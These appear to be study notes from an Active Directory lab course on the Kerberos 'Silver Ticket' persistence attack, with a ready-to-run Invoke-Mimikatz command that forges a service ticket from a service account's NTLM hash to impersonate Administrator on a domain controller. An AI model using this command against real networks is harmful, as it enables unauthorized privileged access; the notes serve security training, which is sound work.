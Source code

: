 
<center><h1>Abuse 2: Silver Ticket</h1></center>
***If you are not able to dump the hash of krbtgt user then you can use this attack.***

If you can extract NTLM hash of a service account then access the service using any user including high privilege user

> If you have service account NTLM hash

```bash
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063- 538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'
```

> Similar command can ve used for any other service ex: HOST, RPCSS, WSMAN and many more.

![[2022-03-25 22_25_24-10-DomainPersistence-Part2.mp4 - VLC media player.png]]

12:02 Part2 DP

